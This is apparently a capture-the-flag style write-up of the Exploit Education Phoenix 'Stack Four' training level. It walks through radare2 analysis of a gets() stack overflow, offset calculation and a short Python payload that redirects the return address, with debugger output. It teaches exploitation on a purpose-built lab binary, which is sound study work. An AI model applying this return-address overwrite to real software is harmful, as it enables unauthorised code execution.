 ```yaml
---
date: "2019-10-13T11:30:00+03:00"
draft: false
categories:
- reverse-engineering
- vulnerability-research
- exploit-development
tags:
- exploit-education-phoenix
title: "Exploit Education Phoenix x86 Stack Four"
---
```

## Introduction

Stack Four is the continuation of the stack-based buffer overflow challenges.

## Recon

Use `rabin2` to get information about the binary.

```shell
$ rabin2 -I /opt/phoenix/i486/stack-four 
arch     x86
baddr    0x8048000
binsz    3608
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

Same info as the previous levels.

```shell
$ r2 /opt/phoenix/i486/stack-four 
```

```nasm
[0x08048350]> aas
Cannot analyze at 0x080485b0
[0x08048350]> afl
0x080482d8    1 17           sym._init
0x080484a0    7 277  -> 112  sym.frame_dummy
0x08048570    5 49           sym.__do_global_ctors_aux
0x080485a1    1 12           sym._fini
0x08048420    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 492  -> 538  sym..interp
0x08048350    1 62           entry0
0x08048340    1 6            sym.imp.__libc_start_main
0x0804865c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048688    3 34           sym..eh_frame
0x080486c4    1 9            obj.__EH_FRAME_BEGIN
0x08048390    4 49   -> 40   sym.deregister_tm_clones
0x0804872c    1 4            obj.__FRAME_END
0x08048505    1 49           sym.start_level
0x08048310    1 6            sym.imp.gets
0x08048300    1 6            sym.imp.printf
0x08048536    1 51           main
0x08048320    1 6            sym.imp.puts
0x080484e5    1 32           sym.complete_level
0x08048330    1 6            sym.imp.exit
[0x08048350]> s main
[0x08048536]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048384
|           0x08048536      8d4c2404       lea ecx, [arg_4h]
|           0x0804853a      83e4f0         and esp, 0xfffffff0
|           0x0804853d      ff71fc         push dword [ecx - 4]
|           0x08048540      55             push ebp
|           0x08048541      89e5           mov ebp, esp
|           0x08048543      51             push ecx
|           0x08048544      83ec04         sub esp, 4
|           0x08048547      83ec0c         sub esp, 0xc
|           0x0804854a      6810860408     push str.Welcome_to_phoenix_stack_four__brought_to_you_by_https:__exploit.education ; 0x8048610 ; "Welcome to phoenix/stack-four, brought to you by https://exploit.education"
|           0x0804854f      e8ccfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048554      83c410         add esp, 0x10
|           0x08048557      e8a9ffffff     call sym.start_level
|           0x0804855c      b800000000     mov eax, 0
|           0x08048561      8b4dfc         mov ecx, dword [var_4h]
|           0x08048564      c9             leave
|           0x08048565      8d61fc         lea esp, [ecx - 4]
\           0x08048568      c3             ret
[0x08048536]> s sym.start_level
[0x08048505]> pdf
/ (fcn) sym.start_level 49
|   sym.start_level (int32_t arg_4h);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ ebp+0x4
|           ; CALL XREF from main @ 0x8048557
|           0x08048505      55             push ebp
|           0x08048506      89e5           mov ebp, esp
|           0x08048508      83ec58         sub esp, 0x58
|           0x0804850b      83ec0c         sub esp, 0xc
|           0x0804850e      8d45b4         lea eax, [var_4ch]
|           0x08048511      50             push eax
|           0x08048512      e8f9fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048517      83c410         add esp, 0x10
|           0x0804851a      8b4504         mov eax, dword [arg_4h]
|           0x0804851d      8945f4         mov dword [var_ch], eax
|           0x08048520      83ec08         sub esp, 8
|           0x08048523      ff75f4         push dword [var_ch]
|           0x08048526      68f3850408     push str.and_will_be_returning_to__p ; 0x80485f3 ; "and will be returning to %p\n"
|           0x0804852b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048530      83c410         add esp, 0x10
|           0x08048533      90             nop
|           0x08048534      c9             leave
\           0x08048535      c3             ret
[0x08048505]> 
```

There is a vulnerable `gets` call in the function `sym.start_level`. The objective seems to be to overwrite the return address of that function to return to the function `sym.complete_level` at address `0x080484e5`.

In order to do that, it is essential to calculate the number of bytes that need to be written on the stack to overwrite the return address.

There are a couple of ways:
* use `ragg2` to generate a cyclic pattern, called De Bruijn Sequence, and check the exact offset where the payload overrides the return address.
* calculate it manually.

For the first option:

```shell
$ ragg2 -P 200 -r > pattern
```

The argument `-P` prepends a De Bruijn Sequence with a size of 200. The argument `-r` shows raw bytes instead of hexpairs.

```shell
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
```

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

```shell
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
```

```nasm
[0xf7f3ed4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41416241
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41416241 code=1 ret=0
[0x41416241]> wopO 0x41416241
80
```

*Replace the address that follows `wopO` with the value of the `eip` register.*

The result of the last operation is the offset that is needed to reach the return address, but not overwrite it.

With the second option, viewing the local variables is enough. The buffer starts at `ebp-0x4c`, which means that to reach `ebp` a size of 76 bytes is needed. Adding another 4 bytes overwrites the old `ebp` value that is on the stack and adding 4 bytes again means overwriting the return address.

## Exploit

```python
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*80 + b'\xe5\x84\x04\x08')
```

```shell
$ ./theScript.py > pattern
$ r2 -d /opt/phoenix/i486/stack-four -r theProfile.rr2
```

```nasm
[0xf7fb8d4b]> aas
Cannot analyze at 0x080485b0
[0xf7fb8d4b]> db 0x08048512
[0xf7fb8d4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
hit breakpoint at: 8048512
[0x08048512]> dr
eax = 0xfff94b5c
ebx = 0xf7fee000
ecx = 0xfff94af0
edx = 0x00000000
esi = 0xfff94c44
edi = 0x00000001
esp = 0xfff94b40
ebp = 0xfff94ba8
eip = 0x08048512
eflags = 0x00000296
oeax = 0xffffffff
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x0000000a  ....oK..........
0xfff94b60  0x08048610 0x080485a1 0x00000000 0x0afaa038  ............8...
0xfff94b70  0xf7fa8a5b 0xf7fee000 0xf7fee1e0 0xf7fab958  [...........X...
0xfff94b80  0xf7fee1e0 0x0000000a 0x00000000 0x00000000  ................
0xfff94b90  0xf7fee000 0xfff94c44 0x00000001 0x08048554  ....DL......T...
0xfff94ba0  0x08048610 0x00000000 0xfff94bb8 0x0804855c  .........K..\...
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x0804855c                                   \...
[0x08048512]> dso
hit breakpoint at: 8048517
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x58585858  ....oK......XXXX
0xfff94b60  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94ba0  0x58585858 0x58585858 0x58585858 0x080484e5  XXXXXXXXXXXX....
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x080484e5                                   ....
[0x08048512]> dc
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

## Conclusion

This level introduced a case where an attacker can control the execution of the program by simply writing more bytes than the buffer can hold, so that the return address of the function that contains the vulnerable `gets` call is overwritten.
